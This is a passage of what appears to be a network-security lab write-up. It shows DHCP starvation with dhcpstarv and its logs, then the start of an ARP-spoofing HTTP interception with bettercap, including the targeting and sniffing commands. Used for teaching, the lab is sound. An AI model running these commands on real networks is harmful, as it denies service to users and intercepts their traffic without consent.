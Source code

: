 ```

## Spoofing DHCP

For DHCP spoofing we can use dhcpstarv in order to saturate the DHCP server with requests, causing clients usually served by DHCP to "starve", they simply can't communicate.

```sudo dhcpstarv -i eth0```

Here is the logs after :

```
08:57:12 08/19/25: no renewal time option in DHCPOFFER
08:57:12 08/19/25: got address 172.19.0.23 for 00:16:36:5f:73:f9 from 172.19.0.254
08:57:13 08/19/25: no renewal time option in DHCPOFFER
08:57:13 08/19/25: got address 172.19.0.24 for 00:16:36:ae:c9:d3 from 172.19.0.254
08:57:14 08/19/25: no renewal time option in DHCPOFFER
08:57:14 08/19/25: got address 172.19.0.25 for 00:16:36:b9:9b:4e from 172.19.0.254
08:57:15 08/19/25: no renewal time option in DHCPOFFER
08:57:15 08/19/25: got address 172.19.0.26 for 00:16:36:cf:cf:f5 from 172.19.0.254
08:57:16 08/19/25: no renewal time option in DHCPOFFER
08:57:16 08/19/25: got address 172.19.0.27 for 00:16:36:e2:22:cb from 172.19.0.254
08:57:17 08/19/25: no renewal time option in DHCPOFFER
08:57:17 08/19/25: got address 172.19.0.28 for 00:16:36:56:a5:bb from 172.19.0.254
08:57:18 08/19/25: no renewal time option in DHCPOFFER
08:57:18 08/19/25: got address 172.19.0.29 for 00:16:36:c0:19:dd from 172.19.0.254
08:57:19 08/19/25: no renewal time option in DHCPOFFER
08:57:19 08/19/25: got address 172.19.0.30 for 00:16:36:fa:28:05 from 172.19.0.254
```

Here we can see that the client user01 can't get a new address, now we can easily usurp the client by getting the address used by the client in order to intercept datas destined to it.
After cleaning my mess with thoses test I pass to the next attack.

---

## Interception HTTP

Let's check the arp table of user01 with ```ip neigh s``` :

<img width="953" height="110" alt="TP-arpTable1" src="https://github.com/user-attachments/assets/fc96f16e-ec72-4fa8-b650-2d35a2bfe0f7" />

Now let's use bettercap :
```sudo bettercap -iface eth0```

And now we must select our target for arp spoofing, activate net sniffing and launch our arp spoofing :

```
bettercap v2.33.0 (built for linux amd64 with go1.22.6) [type 'help' for a list of commands]

172.19.0.0/24 > 172.19.0.100  » [09:25:24] [sys.log] [inf] gateway monitor started ...
172.19.0.0/24 > 172.19.0.100  » set arp.spoof.targets 172.19.0.22
172.19.0.0/24 > 172.19.0.100  » net.sniff on
172.19.0.0/24 > 172.19.0.100  » [09:26:30] [sys.log] [inf] net.sniff starting net.recon as a requirement for net.sniff
172.19.0.0/24 > 172.19.0.100  » [09:26:30] [endpoint.new] endpoint 172.19.0.22 detected as bc:24:11:fb:f0:03 (Proxmox Server Solutions GmbH).
172.19.0.0/24 > 172.19.0.100  » arp.spoof on
[09:27:22] [sys.log] [inf] arp.spoof enabling forwarding
172.19.0.0/24 > 172.19.0.100  » [09:27:22] [sys.log] [inf] arp.spoof arp spoofer started, probing 1 targets.
```

```